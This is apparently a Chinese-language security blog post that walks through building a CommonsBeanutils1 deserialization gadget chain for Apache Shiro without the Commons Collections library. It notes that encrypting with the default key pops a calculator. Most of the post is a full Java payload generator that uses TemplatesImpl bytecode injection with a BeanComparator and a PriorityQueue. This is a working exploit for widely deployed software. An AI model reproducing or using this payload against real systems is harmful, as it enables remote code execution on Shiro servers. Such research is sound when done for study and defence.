

# CommonsBeanutils1-Shiro(无CC依赖)

首先在pom.xml当中去掉依赖，还是昨天的CB1直接生成，结果报错了，说这里有CC的`org.apache.commons.collections.comparators.ComparableComparator`


看到这个报错只可能在一个地方出现，果不其然


所以我们需要使用带两个参数的构造方法自己传入这个comparator对象，那么就要去寻找替代的，通过搜索找到一个



我们点开看看，同时实现了Comparator接口与序列化，香


还有个小细节既然是String.CASE_INSENSITIVE_ORDER，那么包一个双引号，防止Integer转String报错

```
queue.add("1");
queue.add("1");
```

默认key加密后成功弹出计算器


## Payload

```Java
package ysoserial.mytest;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import org.apache.commons.beanutils.BeanComparator;

public class CB1 {
    public static void setFieldValue(Object obj, String fieldName, Object
        value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static byte[] getPayload() throws Exception{
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{
            ClassPool.getDefault().get(test.class.getName()).toBytecode()});
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        final BeanComparator comparator = new BeanComparator(null,String.CASE_INSENSITIVE_ORDER);
        PriorityQueue queue = new PriorityQueue(2, comparator);

        queue.add("1");
        queue.add("1");
        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{obj, obj});

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();
        return barr.toByteArray();
    }

    public static void main(String[] args) throws Exception {
        byte[] payload = getPayload();

        ObjectInputStream ois = new ObjectInputStream(new
            ByteArrayInputStream(payload));
        Object o = (Object)ois.readObject();

    }
}
```

